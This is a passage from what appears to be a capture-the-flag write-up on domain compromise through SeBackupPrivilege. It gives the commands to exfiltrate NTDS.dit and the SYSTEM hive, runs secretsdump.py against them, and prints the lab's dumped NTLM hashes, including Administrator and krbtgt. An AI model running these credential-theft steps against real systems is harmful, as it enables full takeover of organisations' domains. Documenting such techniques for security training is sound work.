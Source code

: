 *(**Learned Lesson:** Understanding the precise syntax and capabilities of `wbadmin` for backing up and recovering specific files, especially `NTDS.dit`, is critical. It's not just about `SeBackupPrivilege` but also the correct usage of the `wbadmin` utility itself. The `wbadmin` utility doesn't directly copy the `NTDS.dit` file. Instead, it performs a system state backup or a component backup that includes `NTDS.dit`. Then, the `NTDS.dit` file needs to be recovered from this backup. This two-step process (backup then recovery) is a common technique when `esentutl` cannot be used or is blocked.)*

**5. Download the `ntds.dit` file to the attacker machine:**

```powershell
download C:\Users\svc_backup\Documents\ntds.dit
```

**6. Save the `SYSTEM` hive:**
The `SYSTEM` hive is essential as it contains the boot key required to decrypt the NTLM hashes stored in `NTDS.dit`.

```powershell
reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\system.hive
```

**7. Download the `system.hive` file:**

```powershell
download C:\Users\svc_backup\Documents\system.hive
```

*(**Redemption Moment:** Successfully extracting and using the `NTDS.dit` and `SYSTEM` hive is a significant milestone, as it grants offline access to all domain hashes, including the most privileged ones. This technique demonstrates the power of leveraging `SeBackupPrivilege` for domain compromise, even without direct file system access to `NTDS.dit`.)*

-----

### Extracting Administrator Hash

With `ntds.dit` and `system.hive` downloaded, `secretsdump.py` from Impacket was used to extract all NTLM hashes, including the Administrator's hash.

```bash
secretsdump.py -system system.hive -ntds ntds.dit LOCAL
```

A snippet of the output showed:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:f2478d31efea735e44fe843e51bc9444:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:0229a7a4cd52062d9480fb4dbe41d41a:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```

The Administrator's NTLM hash was identified as `184fb5e5178480be64824d4cd53b99ee`.

-----
